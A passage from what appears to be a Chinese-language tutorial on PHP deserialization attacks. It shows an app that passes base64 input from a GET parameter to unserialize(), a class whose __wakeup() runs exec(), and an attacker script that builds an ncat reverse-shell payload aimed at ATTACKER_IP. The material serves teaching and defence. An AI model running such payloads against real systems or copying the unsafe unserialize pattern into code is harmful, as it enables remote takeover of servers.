 利用魔法函数执行任意代码。

*   **场景**: 应用程序接收 Base64 编码的序列化数据，并使用 `unserialize()` 处理。同时，代码库中（可能在包含的文件 `test.php` 中）存在一个带有危险魔法函数的类 `MaliciousUserData`。
    ```php
    // Main application file (e.g., index.php)
    require 'test.php'; // Contains the MaliciousUserData class
    if(isset($_GET['decode'])) {
        $base64EncodedData = $_GET['decode'];
        $serializedData = base64_decode($base64EncodedData);
        $obj = unserialize($serializedData); // Vulnerable point!
        // ... application logic using $obj ...
        echo "Data processed.";
    }

    // Included file (test.php)
    class MaliciousUserData {
        public $command = 'id'; // Default command

        // Magic method triggered by unserialize()
        public function __wakeup() {
            // Dangerous: executes command stored in property
            exec($this->command);
        }
    }
    ```
*   **构造 Payload**: 攻击者在本地创建一个 `MaliciousUserData` 实例，设置 `command` 属性为恶意命令（如反向 Shell），然后序列化并 Base64 编码。
    ```php
    // Attacker's local script to generate payload
    <?php
    require 'test.php'; // Need the class definition locally

    class MaliciousUserData {
        public $command = 'ncat -nv ATTACKER_IP 4444 -e /bin/sh';
    }

    $maliciousObj = new MaliciousUserData();
    $serializedPayload = serialize($maliciousObj);
    $base64Payload = base64_encode($serializedPayload);
    echo $base64Payload;
    ?>
    // Output (example): TzoxNzoiTWFsaWNpb3VzVXNlckRhdGEiOjE6e3M6NzoiY29tbWFuZCI7czozNjoi.....=
    ```
*   **注入**: 攻击者将生成的 Base64 Payload 作为 `decode` 参数发送给目标应用 (`http://target.com/?decode=TzoxNzo...`)。
*   **结果**:
    1.  应用程序接收 Base64 数据，解码得到序列化字符串。
    2.  `unserialize()` 被调用，它识别出这是一个 `MaliciousUserData` 对象。
    3.  `unserialize()` 填充对象的 `$command` 属性为攻击者提供的反向 Shell 命令。
    4.  `unserialize()` 完成属性填充后，自动调用 `__wakeup()` 方法。
    5.  `__wakeup()` 中的 `exec($this->command)` 执行了反向 Shell 命令，连接到攻击者的监听器。

### 3. 利用自动化工具 (Exploitation using Automation Tools)
